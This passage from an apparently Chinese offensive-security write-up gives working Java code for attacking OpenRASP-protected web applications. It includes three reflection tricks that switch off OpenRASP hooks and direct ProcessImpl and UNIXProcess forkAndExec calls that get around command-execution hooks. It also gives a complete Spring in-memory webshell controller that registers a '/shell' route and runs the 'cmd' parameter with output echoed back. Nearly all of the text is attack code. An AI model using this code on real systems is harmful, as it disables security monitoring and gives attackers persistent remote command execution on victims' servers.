

又或者是改变

```
hookWhiteAll和cloudSwitch
```

的值即可

### 法一：改变disableHooks

```
try {
  Class<?> clz = Thread.currentThread().getContextClassLoader().loadClass("com.baidu.openrasp.config.Config");
  java.lang.reflect.Method getConfig = clz.getDeclaredMethod("getConfig");
  java.lang.reflect.Field disableHooks = clz.getDeclaredField("disableHooks");
  disableHooks.setAccessible(true);
  Object ins = getConfig.invoke(null);

  disableHooks.set(ins,true);
} catch (Exception e) {}


```

### 法二：改变hookWhiteAll和cloudSwitch

```
try {
  Class<?> clz = Thread.currentThread().getContextClassLoader().loadClass("com.baidu.openrasp.config.Config");
  java.lang.reflect.Method getConfig = clz.getDeclaredMethod("getConfig");
  
  java.lang.reflect.Field hookWhiteAll = clz.getDeclaredField("hookWhiteAll");
  hookWhiteAll.setAccessible(true);
  Object ins = getConfig.invoke(null);
  hookWhiteAll.set(ins,true);
  
java.lang.reflect.Field cloudSwitch = clz.getDeclaredField("cloudSwitch");
cloudSwitch.setAccessible(true);
Object ins2 = getConfig.invoke(null);
cloudSwitch.set(ins2,true);
} catch (Exception e) {}


```

### 法三：改变HookHandler

```
Object o = Class.forName("com.baidu.openrasp.HookHandler").newInstance();
Field f = o.getClass().getDeclaredField("enableHook");
Field m = f.getClass().getDeclaredField("modifiers");
m.setAccessible(true);
m.setInt(f, f.getModifiers() & ~Modifier.FINAL);
f.set(o, new AtomicBoolean(false));
```



然后就能够命令执行了同时有回显



如果下面没有把整段代码贴出来，那么都是基于上述内存马的代码修改位置来进行修改的。

## 文件写入+读取

### 命令执行

#### 法一、创建新的进程绕过，执行命令

```
/**
 * @className EvilThread
 * @Author shushu
 * @Data 2025/4/23
 **/
package Expclass;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

public class BypassRasp extends AbstractTranslet implements Runnable{
    public BypassRasp(){
        new Thread(this).start();
    }

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }

    @Override
    public void run() {
        try {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] command = isLinux ? new String[]{"sh", "-c","ls > /tmp/result"} : new String[]{"cmd.exe", "/c", "calc"};
            Runtime.getRuntime().exec(command);
        }catch (IOException e){}
    }
}
```

#### 法二、hook点

##### win

```
public static void bypass_hook(String cmd) throws Exception{
        Class processClass = Class.forName("java.lang.ProcessImpl");

        String cmdstr = cmd;
        String envblock = null;
        String dir = null;
        long[] stdHandles = new long[]{-1, -1, -1};
        // 这里将 redirectErrorStream 设置为 true 以便于将错误输出重定向到标准输出
        boolean redirectErrorStream = true;

        Method create = processClass.getDeclaredMethod("create", String.class, String.class, String.class, long[].class, boolean.class);
        create.setAccessible(true);
        // 由于 create 方法是静态方法，甚至都不用实例化对象就行。
        create.invoke(null, cmdstr, envblock, dir, stdHandles, redirectErrorStream);
    }
```

##### UNIX/Linux系统

命令执行

```
import sun.misc.Unsafe;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
public class WriteFile {

    public static void main(String[] mainargs) throws Exception{
        // 获取命令
        String[] strs = new String[]{"whoami"};

        if (strs != null) {
            Field theUnsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            theUnsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) theUnsafeField.get(null);

            Class processClass = null;

            try {
                processClass = Class.forName("java.lang.UNIXProcess");
            } catch (ClassNotFoundException e) {
                processClass = Class.forName("java.lang.ProcessImpl");
            }

            Object processObject = unsafe.allocateInstance(processClass);

            // Convert arguments to a contiguous block; it's easier to do
            // memory management in Java than in C.
            byte[][] args = new byte[strs.length - 1][];
            int size = args.length; // For added NUL bytes

            for (int i = 0; i < args.length; i++) {
                args[i] = strs[i + 1].getBytes();
                size += args[i].length;
            }

            byte[] argBlock = new byte[size];
            int i = 0;

            for (byte[] arg : args) {
                System.arraycopy(arg, 0, argBlock, i, arg.length);
                i += arg.length + 1;
                // No need to write NUL bytes explicitly
            }

            int[] envc = new int[1];
            int[] std_fds = new int[]{-1, -1, -1};
            Field launchMechanismField = processClass.getDeclaredField("launchMechanism");
            Field helperpathField = processClass.getDeclaredField("helperpath");
            launchMechanismField.setAccessible(true);
            helperpathField.setAccessible(true);
            Object launchMechanismObject = launchMechanismField.get(processObject);
            byte[] helperpathObject = (byte[]) helperpathField.get(processObject);

            int ordinal = (int) launchMechanismObject.getClass().getMethod("ordinal").invoke(launchMechanismObject);

            Method forkMethod = processClass.getDeclaredMethod("forkAndExec", new Class[]{
                    int.class, byte[].class, byte[].class, byte[].class, int.class,
                    byte[].class, int.class, byte[].class, int[].class, boolean.class
            });

            forkMethod.setAccessible(true);// 设置访问权限

            int pid = (int) forkMethod.invoke(processObject, new Object[]{
                    ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                    null, envc[0], null, std_fds, false
            });

            // 初始化命令执行结果，将本地命令执行的输出流转换为程序执行结果的输出流
            Method initStreamsMethod = processClass.getDeclaredMethod("initStreams", int[].class);
            initStreamsMethod.setAccessible(true);
            initStreamsMethod.invoke(processObject, std_fds);

            // 获取本地执行结果的输入流
            Method getInputStreamMethod = processClass.getMethod("getInputStream");
            getInputStreamMethod.setAccessible(true);
            InputStream in = (InputStream) getInputStreamMethod.invoke(processObject);

            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            int a = 0;
            byte[] b = new byte[1024];

            while ((a = in.read(b)) != -1) {
                baos.write(b, 0, a);
            }

            System.out.println(baos.toString());
        }


    }

    public static byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                result, 0,
                bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }

}

```

这里是要在docker上面单独编译单独执行的。在win是无法去编译成功的，Win下没有这个类，Win下可以使用ProcessImpl，但是没必要使用Unsafe



### 文件读取

```
// 获取request和response对象
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        // 获取cmd参数并执行命令
        String command = request.getParameter("cmd");

        if(command != null){
            try {
                java.io.PrintWriter printWriter = response.getWriter();
                String o = "you_are_successful!!!!!!!!!";
                File file = new File("./result");
                java.util.Scanner c = new java.util.Scanner(file).useDelimiter("\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                printWriter.write(o);
                printWriter.flush();
                printWriter.close();
            }catch (Exception ignored){

            }

        }
```

命令执行（记得url双重编码）



文件读取



这里我只打了win系统的没有打linux，因为我觉得这种办法实在是太不优雅了，

当然如果你说命令执行和文件读取两个方法写在统一个函数里面，先命令执行，然后再把文件内容读取出来，但是总感觉跟原本的内容马差了点意思。

下面我会继续提到

这种方法比第一种卸载RASP功能的方法就要麻烦的多了，要打两次内存马。

# 扩展:命令执行+回显

网上很多payload但是没有结合到内存马去利用，这里补充一下。

这里就拿创建新的进程来改，刚开始一直报错java.lang.NullPointerException: null

堆栈跟踪显示问题出在org.apache.catalina.connector.CoyoteWriter.write方法里，具体是在EvilController类的test方法中的第84行

```
printWriter.write(RESULT);
```

原因是我一开始并没有给他赋值，但是他又是静态代码块，所以抛一个null值

```
private static String RESULT="you_are_right";
```

这样修改之后即可

完整的内存马。

```
import Expclass.JvmRaspBypass.Cmd;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.*;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import sun.misc.Unsafe;
import sun.reflect.ReflectionFactory;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Objects;
import java.util.Scanner;

import static CCtesu.test.getFieldValue;
import static Util.Util.LOADER;
import static Util.Util.base64Decode;

public class EvilController extends AbstractTranslet implements Runnable{
    private static String RESULT="you_are_right";
    private static String CMD="whoami";
    @Override
    public void run() {
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
        }
        String[] command = isLinux ? new String[]{"sh", "-c","ls > /tmp/result"} : new String[]{"cmd.exe", "/c", CMD};
        try {
            InputStream in = null;
            in = Runtime.getRuntime().exec(command).getInputStream();
            Scanner scanner = new Scanner(in).useDelimiter("\A");
            String out = scanner.hasNext() ? scanner.next() : "";
            RESULT=out;
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public EvilController() throws Exception{
        // 1. 利用spring内部方法获取context
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 2. 从context中获得 RequestMappingHandlerMapping 的实例
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 3. 通过反射获得自定义 controller 中的 Method 对象
        Method method = EvilController.class.getMethod("test");
        // 4. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
        // 5. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 6. 在内存中动态注册 controller
        Field configField = mappingHandlerMapping.getClass().getDeclaredField("config");
        configField.setAccessible(true);

        RequestMappingInfo.BuilderConfiguration config = (RequestMappingInfo.BuilderConfiguration) configField.get(mappingHandlerMapping);
        RequestMappingInfo info = RequestMappingInfo.paths("/shell").options(config).build();


        EvilController springBootMemoryShellOfController = new EvilController("ycxlo");
        mappingHandlerMapping.registerMapping(info, springBootMemoryShellOfController, method);
    }

    public EvilController(String test){
        new Thread(this).start();
    }
    public void test() throws Exception{
        // 获取request和response对象
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        String cmd = request.getParameter("cmd");
        if(cmd!=null){
            java.io.PrintWriter printWriter = response.getWriter();
            CMD = cmd;
            new Thread(this).start();
            System.out.println(CMD);
            printWriter.write(RESULT);
            printWriter.flush();
            printWriter.close();
        }

    }


    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }


    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

}
```



这样打进去之后就能够回显了。

利用ProcessImpl的执行命令只需获取到pid然后初始化命令执行结果，将本地命令执行的输出流转换为程序执行结果的输出流最后再吧获取本地执行结果的输入流给输出来即可。

在上面UNIX/Linux系统已有详细说明的payload，这里就不再赘述。
